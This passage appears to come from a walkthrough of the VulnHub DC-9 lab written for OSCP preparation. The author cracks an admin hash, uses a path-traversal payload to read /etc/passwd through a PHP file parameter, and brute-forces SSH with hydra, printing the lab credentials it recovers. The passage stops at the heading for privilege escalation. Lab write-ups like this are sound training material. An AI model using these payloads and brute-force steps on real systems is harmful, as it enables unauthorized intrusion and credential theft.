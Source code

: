 <figure><img src="../.gitbook/assets/Crackstation.png" alt=""><figcaption></figcaption></figure>

This way I retrieved the hashed password, to crack it I used crackstation which is an online tool that cracks the most common types of hashes. The credentials that I've got from the hash is admin:transorbital1. After a good looking and nothing much I observed a strange string at the end of the manager account "File does not exist". \[later i discovered that the part of the SQLi was skippable just going trough the "/session.php" file :| ]

After a few tries i have noticed that because it's a PHP-based webserver and a server request a file we can just exploit it with `/manage.php?file=../../../../../../../etc/passwd` After a while i found nothing with LFI so i started bruteforcing ssh with the passwords (from the sql dump) and usernames (from both sql and /etc/passwd) using hydra:

```
kali@kali:~/oscp-prep/vulnhub/DC9$ hydra ssh://192.168.40.135 -L usernames.txt -P passwords.txt 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-01 12:57:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 324 login tries (l:18/p:18), ~21 tries per task
[DATA] attacking ssh://192.168.40.135:22/
[22][ssh] host: 192.168.40.135   login: chandlerb   password: UrAG0D!
[22][ssh] host: 192.168.40.135   login: joeyt   password: Passw0rd
[22][ssh] host: 192.168.40.135   login: janitor   password: Ilovepeepee
...
```

Now we have a bunch of credentials-combo for ssh!

## Internal Enumaration and Privilege Escalation
